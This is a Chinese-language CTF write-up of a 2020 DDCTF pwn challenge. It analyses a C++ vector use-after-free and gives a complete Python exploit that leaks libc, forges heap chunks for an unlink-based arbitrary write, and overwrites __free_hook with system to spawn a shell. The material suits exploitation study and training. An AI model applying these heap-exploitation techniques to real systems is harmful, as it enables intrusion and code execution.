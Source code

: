 ```yaml
---
layout: post
title: Unlink 使用技巧
description: 本题是2020DDCTF—PWN题，看了网上大多数都是用unsorted-bin-attack覆盖虚表，然后找到了一个师傅用的是unlink来getshell，所以特此记录一下
categories: CTF/pwn


---
```






<!-- more -->

# 前言

该题运用的是C++ vector机制的漏洞，当vector未放入数据的话，会按照0x20、0x30、0x50、0x90……来分配和释放内存，这个机制本身可以实现vector来管理内存，不用让开发者担心内存管理的问题，但是如果开发者不了解这些机制，并且将vector的内存地址保存在某个地址未做及时更新的话，那么我们就可以利用这个机制来实现很多操作！

# 题目逻辑分析

堆菜单题：

![unlink1](/images/character6/unlink.png)





Add:往vector push一个数据

Show:

获取原来的bss地址作为iterator对象存放在0x605380+0x18的位置

vector.push(0xaabbccdd)

然后将新的堆块的数据地址-8存放在0x605380+0x20的位置

开始展示数据并询问是否修改

由于新旧的堆块地址不同，所有就有UAF那味道了

![unlink1](/images/character6/show.png)

clear():清理vector，但是不会清除堆块的内容



# EXP编写

思路：先添加9个数据，使得分配一个unsorted_bin，然后clear，利用UAF来leak libc_base的地址

​            后面通过在堆上布置一些数据，防止绕过一些检查

​			然后再添加8个数据,接着通过push 0xaabbccdd添加一个数据使得给vector分配一个unsorted bin

​            通过修改这个bin的内容来unlink

​            具体表示：

​             -0x10   ----prev_size.      #1

​             0x90     ---- size (prev_inuse=0) #

​              0.          ---- prev_size #2

​              0x21    -----  size #

​              Target_addr-0x18 ---fd 

​              Target_addr-0x10 ----bk 

​              0x20 --   fake_prev_size

​     		修改完之后，iterator和heap_addr的地址是指向这个3的，当再添加到16个数据的时候,show会释放掉堆块也就是释放了chunk1，这时unlink检查prev_use == 0 则chunk2 = chunk1+prev_size->chunk2,检查到 fake_prev_size == size 和fd与bk之后发生unlink.

​             这时bss_heap_pool_addr就会指向自己,通过修改bss_heap_pool就可以实现任意地址写,将__free_hook-8和____free_hook改成/bin/sh（这里是字符串)和&system即可getshell

```python
#https://github.com/matrix1001/welpwn

from PwnContext import *

try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')

if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h'] # uncomment this if you use tmux
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))

    debugg = 1
    logg = 1

    ctx.binary = './pwn1'
    ctx.remote_libc = './libc-2.23.so'
    
    ctx.debug_remote_libc = False # True for debugging remote libc, false for local.

    #ctx.breakpoints = [0x401131,0x40114d,0x40122B]
    ctx.symbols = {'pool':0x605380}
    #ctx.debug()
    if debugg:
    	rs()
    else:
        ctx.remote = ('1.1.1.1', 1111)
        rs(method = 'remote')
    if logg:
	    context.log_level = 'debug'
    # rs('remote') # uncomment this for exploiting remote target

    libc = ctx.libc # ELF object of the corresponding libc.
    
    def Choice(num):
    	sla('>>',num)
    def Add(content):
    	Choice(1)
    	sla('num:',content)
    def Edit_target(flag='n',recv='n',content=None,size=0):
    	res = None
    	target_heap_addr = None
    	if recv == 'y':
    	    ru(':')
    	    res = int(r(size))
    	    #log.success('targer_addr:%s'%target_heap_addr)
    	sla('Edit (y/n):',flag)
    	#res = None
    	if flag == 'y':	
    		sleep(0.1)
    		sl(content)
    	return res
    def Clear():
    	Choice(3)
    def Show():
    	Choice(2)

    bss_addr = 0x605380

    Add(123)
    Add(123)
    Show()
    heap_addr = Edit_target('n','y',size = 8)
    for i in range(5):
    	Edit_target()
    for i in range(7):
    	Add(123)

    Clear()
    Add(123)
    Show()
    Edit_target()
    leak_addr = Edit_target('n','y',size=15)
    #dbg()
    log.success('heap_addr:%s'%hex(heap_addr))
    log.success('leak_addr:%s'%hex(leak_addr-0x6cdb78))
    libc_base = leak_addr-0x6cdb78
    free_hook = libc_base + 0x6cf7a8
    system  = libc_base + 0x34e3a0
    for i in range(3):
        Edit_target()
    #Show()
    #Add(123)
    #Add(123)
    Clear()
    for i in range(17):
    	Add(0x21)
    Clear()
    
    for i in range(8):
    	Add(0x20)
    #dbg()
    #raw_input()
    Show()
    for i in range(8):
    	Edit_target()
    Edit_target('y','n',-0x10)
    Edit_target('y','n',0x90)
    Edit_target('y','n',0)
    Edit_target('y','n',0x21)
    Edit_target('y','n',0x605398-0x18)
    Edit_target('y','n',0x605398-0x10)
    for i in range(4):
    	Edit_target()
    for i in range(7):
    	Add(0x20)
    #raw_input()
    Show()
    #dbg()
    #raw_input()
    Edit_target('y','n',free_hook - 8)
    Edit_target('y','n',free_hook + 8)
    Edit_target('y','n',0)
    Edit_target('y','n',0x605398)
    Edit_target('y','n',0x6053A8)
    dbg()
    raw_input()
    Show()
    Edit_target('y','n',0x68732F6E69622F)  #/bin/sh
    Edit_target('y','n',system)
    Clear()
    irt()
```



# 总结

1.unlink技巧:

Prev_size为负数且chunk1-(-prev_size)=chunk2

size->prev_use为0

chunk2->size->prev_use=0

chunk2->next_chunk->prev_inuse = chunk2->size

2.通过修改__free_hook-8和_free_hook为system

